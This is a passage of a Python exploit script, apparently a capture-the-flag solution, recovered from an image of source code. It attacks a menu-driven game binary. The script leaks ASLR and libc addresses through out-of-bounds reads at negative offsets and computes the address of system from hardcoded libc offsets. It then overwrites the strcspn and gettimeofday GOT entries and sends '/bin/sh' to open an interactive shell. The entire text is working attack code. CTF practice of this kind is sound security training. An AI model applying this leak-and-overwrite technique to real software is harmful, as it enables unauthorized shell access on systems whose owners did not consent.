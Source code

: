 ```python
    # start a game
    r.sendlineafter(b'option: ', b'1')

    # aslr leak
    localtime = read64(r, -464)
    print(hex(localtime))

    initialize_game = localtime + 0xc72
    print('initialize game: ', hex(initialize_game))

    # libc leak
    puts = read64(r, -448)
    print(hex(puts))


    print('setbuf', hex(read64(r, -448+16*2)))
    print('printf', hex(read64(r, -448+16*3)))
    print('fgets', hex(read64(r, -448+16*7)))
    print('getchar', hex(read64(r, -448+16*8)))

    libc = puts - 0x87bd0
    system = libc + 0x58740
    print('system: ', hex(system))

    # write to -368: strcspn
    write64(r, -368, system)
    print('wrote strcspn = ', hex(system))

    # write to -384: gettimeofday
    write64(r, -384, initialize_game)
    print('wrote gettimeofday = ', hex(initialize_game))

    r.sendlineafter(b'option: ', b'4')
    r.sendlineafter(b'option: ', b'3')
    r.sendlineafter(b'name: ', b'/bin/sh')

    r.interactive()


if __name__ == "__main__":
    main()
```
